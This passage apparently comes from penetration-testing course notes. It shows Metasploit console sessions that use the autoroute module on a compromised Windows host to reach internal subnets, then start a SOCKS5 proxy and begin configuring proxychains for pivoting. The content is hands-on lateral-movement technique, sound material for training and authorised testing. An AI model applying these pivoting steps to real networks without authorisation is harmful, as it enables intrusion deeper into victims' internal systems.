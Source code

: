 ```

msf6 post(multi/manage/autoroute) > set session 12
session => 12

msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against ITWK01
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.5.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.50.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
```
+ Above shows that _autoroute_ added 172.16.5.0/24 to the routing table

We could now use the psexec module as we did before, but we can also combine routes with the _server/socks_proxy_ auxiliary module to configure a SOCKS proxy
+ This allows applications outside of the Metasploit Framework to tunnel through the pivot on port 1080 by default
+ We set the option _SRVHOST_ to **127.0.0.1** and _VERSION_ to **5** in order to use SOCKS version 5:
```
msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy 

msf6 auxiliary(server/socks_proxy) > show options

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 0.
[*] Starting the SOCKS proxy server
```
+ We can now update our _proxychains_ configuration file (**/etc/proxychains4.conf**) to take advantage of the SOCKS5 proxy
+ After editing the configuration file, it should appear as follows:
```
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
```